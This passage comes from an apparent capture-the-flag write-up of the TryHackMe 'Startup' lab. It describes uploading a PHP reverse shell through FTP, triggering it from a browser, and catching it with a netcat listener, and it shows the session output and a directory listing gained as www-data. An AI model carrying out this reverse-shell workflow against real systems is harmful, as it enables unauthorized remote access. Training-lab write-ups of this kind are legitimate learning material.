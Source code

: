 Now we have a php-reverse-shell script on the FTP-Server: 

![Shell uploaded to FTP-Share](/assets/img/thm-images/THM-Startup-3.png)

# Exploitation

The Exploitation is a simple step on this target. We only have to run the shell.php script in the Web-Browser by simple clicking on the file. 

I have started a netcat listener on my machine so i get back the reverse shell: 

```sh
❯ nc -lnvp 9901
listening on [any] 9901 ...
connect to [10.9.170.39] from (UNKNOWN) [10.10.76.61] 50996
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:44:37 up 28 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ date
Tue Nov 10 07:44:59 UTC 2020
$ 
```

Now We can have a look into the Files. 

```sh
www-data@startup:/$ ls
ls
bin   etc   initrd.img.old  media  recipe.txt  snap  usr      vmlinuz.old
boot  home    lib     mnt  root      srv   vagrant
data  incidents   lib64     opt  run       sys   var
dev   initrd.img  lost+found    proc   sbin      tmp   vmlinuz
www-data@startup:/$ 
```

There is a file called "recipe.txt". when we cat this file we see the answer for the first Task of THM:
